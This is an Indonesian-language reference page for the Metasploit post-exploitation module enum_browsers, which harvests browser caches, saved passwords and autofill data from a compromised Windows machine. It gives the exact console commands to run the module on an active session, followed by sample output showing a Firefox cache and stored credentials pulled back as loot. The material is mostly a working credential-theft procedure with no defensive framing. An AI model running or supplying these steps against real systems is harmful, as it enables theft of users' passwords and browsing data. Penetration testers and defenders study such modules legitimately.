 # enum_browsers

Modul `enum_browsers` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan informasi terkait aktivitas `web browser` di komputer target, seperti `daftar situs yang pernah dikunjungi`, `kredensial yang disimpan`, serta `data autofill`.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_browsers
set EXTRACT_CACHE true
set SESSION <ID>
set USER_MIGRATION true
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Targeting: admin-PC\admin (IP: 192.168.1.52)
[*] System Information: ADMIN-PC | OS: Windows 7 (6.1 Build 7601, Service Pack 1). | Arch: x64 | Lang: en_US
[*] Starting data extraction from user profile: C:\Users\admin
[*] 
[+] Found Mozilla Firefox (Version: 115.0.3)
[*] 409 cache files found for Mozilla Firefox, total size: 34931 KB
[*] └ Zipping progress: 10% (41/409 files processed)
[*] └ Zipping progress: 20% (82/409 files processed)
[*] └ Zipping progress: 30% (123/409 files processed)
[*] └ Zipping progress: 40% (164/409 files processed)
[*] └ Zipping progress: 50% (205/409 files processed)
[*] └ Zipping progress: 60% (246/409 files processed)
[*] └ Zipping progress: 70% (287/409 files processed)
[*] └ Zipping progress: 80% (328/409 files processed)
[*] └ Zipping progress: 90% (369/409 files processed)
[*] └ Zipping progress: 100% (409/409 files processed)
[*] └ Cache for Mozilla Firefox zipped to: C:\Users\admin\AppData\Local\Temp\kCQGAVrY.zip
[+] └ Cache extracted to /root/.msf4/loot/20250516125830_default_192.168.1.52_MozillaFirefox__308548.zip (27425464 bytes)
[+] └ Passwords extracted to /root/.msf4/loot/20250516125832_default_192.168.1.52_MozillaFirefox__141190.json (3 entries)
[-] └ Cookies empty
[-] └ Download history empty
[-] └ Keyword search history empty
[-] └ Browsing history empty
[-] └ Bookmarks empty
[-] └ No extensions found for Mozilla Firefox.
[-] └ Cookies empty
[-] └ Download history empty
[-] └ Keyword search history empty
[-] └ Browsing history empty
[-] └ Bookmarks empty
[*] Post module execution completed
```
